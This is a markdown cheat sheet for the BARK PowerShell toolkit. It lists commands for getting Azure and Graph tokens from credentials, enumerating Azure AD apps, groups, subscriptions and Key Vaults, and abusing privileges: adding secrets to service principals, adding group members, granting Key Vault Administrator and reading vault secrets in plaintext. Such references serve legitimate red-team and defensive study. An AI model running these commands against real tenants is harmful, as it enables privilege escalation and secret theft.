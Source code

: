 # Using BARK

## What is BARK
BloodHound Attack Research Kit ([BARK](https://github.com/BloodHoundAD/BARK/blob/main/README.md)) is used for authenticating and performing abuse primitives in Azure and Azure AD

## Installation
BARK is a PowerShell script:
* `git clone https://github.com/BloodHoundAD/BARK.git` or download the PowerShell script
* Import the module with `ipmo .\BARK.ps1`

## About Acquired Tokens
* Token objects may have multiple tokens (e.g. `access_token`, `refresh_token`, `id_token`)
	* Display contents of token objects with `$token`
	* If multiple tokens, use `$token.access_token` to auth with the access token

## Auth Commands
* Get a Graph API token with user/pass, then view the token
	* `$token = Get-MSGraphTokenWithUsernamePassword -Username "user@tenant.onmicrosoft.com" -Password "password" -Tenant "tenant.onmicrosoft.com"`
* Auth with with user and pass to get a refresh token, then use to get a Graph token
	* Get the PRT `$RefreshToken = Get-AZRefreshTokenWithUsernamePassword -username "user@tenant.onmicrosoft.com" -password "password" -TenantID "tenant.onmicrosoft.com"`
	* Get a Graph token `$MSGraphToken = Get-MSGraphTokenWithRefreshToken -RefreshToken $RefreshToken.refresh_token -TenantID "tenant.onmicrosoft.com"`
	* Get ARM tokens with:
		* `Get-ARMTokenWithUsernamePassword`
		* `Get-AzureRMTokenWithClientCredentials -ClientID "AppIdGoesHere" -ClientSecret "ClientSecretGoesHere" -TenantName "tenant.onmicrosoft.com"`
* Get a token scoped to Key Vault
	* With Client Creds
		* `$VaultToken = Get-AzureKeyVaultTokenWithClientCredentials -ClientID "AppIdGoesHere" -ClientSecret "ClientSecretGoesHere" -TenantName "tenant.onmicrosoft.com"`
* Use the access token with BARK cmdlets with `-Token $RefreshToken.access_token`

### Lateral Movement
* BARK is PowerShell:
	* Just request a new token to a new object
	* BARK functions support specifying the token with `-Token`

## Enumeration Commands
* List all apps, retrieve the ID of an app to then set a secret (with `New-AppRegSecret`)
	* `Get-AllAzureADApps -token $token.access_token | Select DisplayName,Id, AppId`
		* `Id` is the `AppRegObjectId`
		* `AppId` is what appears as the Object ID in BloodHound
* Retrieve members of a group
	* `Get-AZGroupMembers -GroupID "GroupIDGoesHere" -Token $token`
		* The Group ID is the `Object ID` property in BloodHound
* Find all Azure RM subscriptions
	* `Get-AllAzureRMSubscriptions -token $ARMtoken.access_token`
* Find all Key Vaults in an Azure RM Subscription
	* `Get-AllAzureRMKeyVaults -Token $ARMtoken.access_token -SubscriptionID "SubscriptionIdGoesHere"`
* Find Azure RM Role Definitions (e.g. Key Vault Administrators)
	* `Get-AzureRMRoleDefinitions -Token $ARMtoken.access_token -SubscriptionID "SubScriptionIdGoesHere" | ?{$_.AzureRMRoleDisplayName -Like "Key Vault Administrator"}`
* List secrets in a Key Vault
	* `Get-AzureRMKeyVaultSecrets -KeyVaultURL "https://[vaulturl].vault.azure.net/" -Token $VaultToken.access_token`

##  Abuse Commands
* Set a Service Principal secret (abuse AzAddSecret edge)
	* `New-ServicePrincipalSecret -ServicePrincipalID "ServicePrincipalIDGoesHere" -token $RefreshToken.access_token`
* Set an App Registration Secret (abusing AzAppAdmin role)
	* `New-AppRegSecret -AppRegObjectID "OBJECTIDHERE" -Token $token`
* Add a user to an existing group (abusing Owner privileges over a Group)
	* `Add-AZMemberToGroup -PrincipalID "IdOfMemberToAdd" -TargetGroupId "IdOfGroupOwned" -Token $token`
		* The Group ID is the `Object ID` property in BloodHound
* Grant Key Vault Admin over a target Key Vault
	* `New-AzureRMRoleAssignment -PrincipalId "ObjectIdOfUserToGrantAccess" -AzureRMRoleId "RoleId including /subscriptions endpoint" -TargetObjectId "Vault ObjectId without /subscriptions endpoint" -Token $ARMtoken.access_token`
* Retrieve a secret in plaintext from a Key Vault
	* `Get-AzureRMKeyVaultSecretValue -KeyVaultSecretID "SecretId" -token $vaulttoken.access_token`